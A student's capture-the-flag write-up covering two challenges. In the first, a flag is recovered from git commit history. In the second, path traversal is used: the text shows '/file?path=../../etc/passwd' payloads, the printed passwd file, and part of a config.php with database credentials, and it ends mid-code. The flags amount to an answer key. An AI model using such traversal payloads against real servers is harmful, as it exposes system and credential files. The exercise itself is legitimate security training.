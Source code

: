 1.Since I saw 
```bash
clone it, pull it, reset it, stage it, 
commit, push it, fork, rebase it. 
merge it, branch it, tag it, log it, 
add it, stash it, diff, untrack it … 
```
I thought I just had to execute these commands using bash on the repo link given. So i went into my bash and i tried to clone it but the access was denied so I understood this wasn't the right way and hence i decided to look furthur.
2.My teammates started searching through all files and I started searching the commits. I found the first suspicious commit with the name `Remove secret chunk 3 file (history-only)` I loaded it and got a strange ciphertext. Putting it into chatgpt it told me that it was a base64 encode text and the decoded text is this: `dDBfZzF0X2x1Y2t5fQ== → t0_g1t_lucky}` now i knew that we are on the right path and hence we all started searching the commit history and eventually getting all the parts of the flag.
## What I learned
Reading the commit history of a repository.

## References 
None

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Robot's trail

## My solve
**Flag:** `citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}`

1. I first did inspect to know more about the website code there I saw `/robots.txt` inside a href tag using that i entered `websiteurl/robots.txt` and found
```bash
User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
```
Now I knew that we had to do url manipulation to finally get to the page which will give me the flag. So I told chatgpt all the relevant info and asked it for all possible urls that will take me to the final page containing the flag. Firstly I went to `/file?path=../../etc/passwd` this gave me 
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash
```
Now trying various commands and stuff I progressed in the following way:
```bash
<?php
// Database configuration
$db_host = 'localhost';
$db_user = 'admin';
```